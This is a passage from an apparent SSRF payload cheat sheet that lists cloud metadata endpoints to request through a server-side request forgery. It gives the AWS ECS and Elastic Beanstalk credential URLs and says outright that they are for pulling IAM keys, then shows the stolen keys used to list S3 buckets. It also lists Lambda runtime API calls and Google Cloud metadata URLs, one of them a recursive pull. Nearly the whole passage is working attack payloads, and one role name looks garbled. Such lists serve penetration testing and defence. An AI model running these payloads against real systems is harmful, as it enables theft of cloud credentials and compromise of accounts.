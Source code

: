 If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

### SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

![notsosecureblog-awskey](https://www.notsosecure.com/wp-content/uploads/2019/02/aws-cli.jpg)

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.


### SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

### SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google allows recursive pulls

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```
